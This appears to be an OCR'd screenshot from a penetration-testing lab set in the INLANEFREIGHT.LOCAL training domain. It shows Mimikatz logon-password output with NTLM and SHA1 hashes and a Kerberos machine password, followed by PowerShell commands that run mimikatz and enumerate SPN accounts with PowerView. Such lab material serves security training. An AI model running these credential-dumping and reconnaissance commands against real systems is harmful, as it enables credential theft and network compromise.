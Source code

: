 ```powershell
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :
        credman :

Authentication Id : 0 ; 1284107 (00000000:0013980b)
Session           : Interactive from 1
User Name         : srvadmin
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 6/28/2022 3:46:05 PM
SID               : S-1-5-21-1666128402-2659679066-1433032234-1107
        msv :
         [00000003] Primary
         * Username : srvadmin
         * Domain   : INLANEFREIGHT
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
         * DPAPI    : 64fa83034ef8a3a9b52c1861ac390bce
        tspkg :
        wdigest :
         * Username : srvadmin
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : srvadmin
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 70669 (00000000:0001140d)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:33 PM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
```

[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname